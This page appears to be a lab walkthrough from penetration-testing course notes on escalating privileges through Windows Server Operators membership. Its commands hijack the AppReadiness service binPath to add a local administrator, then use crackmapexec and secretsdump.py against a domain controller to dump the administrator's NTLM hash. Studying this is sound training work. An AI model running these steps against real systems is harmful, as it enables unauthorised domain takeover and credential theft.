 # Server Operators

***

{% hint style="warning" %}
The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.
{% endhint %}

<mark style="color:green;">**Querying the AppReadiness Service**</mark>

```cmd-session
C:\htb> sc qc AppReadiness
```

<mark style="color:green;">**Checking Service Permissions with PsService**</mark>

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service. `PsService` works much like the `sc` utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.

```cmd-session
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
```

This confirms that the Server Operators group has [SERVICE\_ALL\_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) access right, which gives us full control over this service.

<mark style="color:green;">**Checking Local Admin Group Membership**</mark>

```cmd-session
C:\htb> net localgroup Administrators
```

<mark style="color:green;">**Modifying the Service Binary Path**</mark>

{% code fullWidth="true" %}
```cmd-session
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add
```
{% endcode %}

<mark style="color:green;">**Starting the Service**</mark>

```cmd-session
C:\htb> sc start AppReadiness
```

<mark style="color:green;">**Confirming Local Admin Group Membership**</mark>

```cmd-session
C:\htb> net localgroup Administrators
```

<mark style="color:green;">**Confirming Local Admin Access on Domain Controller**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot_1@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```
{% endcode %}

<mark style="color:green;">**Retrieving NTLM Password Hashes from the Domain Controller**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot_1@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```
{% endcode %}
